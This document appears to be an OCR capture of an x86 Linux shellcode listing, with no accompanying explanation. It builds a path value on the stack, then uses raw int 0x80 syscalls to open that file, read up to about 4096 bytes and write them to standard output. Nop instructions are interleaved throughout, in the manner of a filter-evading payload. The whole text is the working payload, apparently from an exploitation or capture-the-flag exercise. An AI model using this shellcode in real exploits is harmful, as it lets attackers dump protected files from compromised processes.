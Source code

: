 ```assembly
push eax
nop
xor eax, eax
mov al, 43
mov bl, 3
mul ebx
mov bl, 2
mul ebx
mul ebx
mul ebx
shr ebx, 1
add eax, ebx
mov bl, 19
mul ebx
mov bl, 5
mul ebx
mov bl, 2
mul ebx
pop ebx
nop
mul ebx
push eax
nop

xor eax, eax
mov    al,0x5
mov    ebx,esp
int    0x80
xchg   ebx,eax
nop
xchg   ecx,eax
nop
mov    al,0x3
xor    edx,edx

push eax
nop
xor eax, eax
xor edx, edx
mov dl, 64
mov al, 64
mul edx
push eax
nop
pop edx
nop
xor eax, eax
mov al, 1
sub edx, eax
pop eax
nop

inc    edx
nop
int    0x80
xchg   edx,eax
nop
xor    eax,eax
mov    al,0x4
mov    bl,0x1
int    0x80
xchg   ebx,eax
nop
```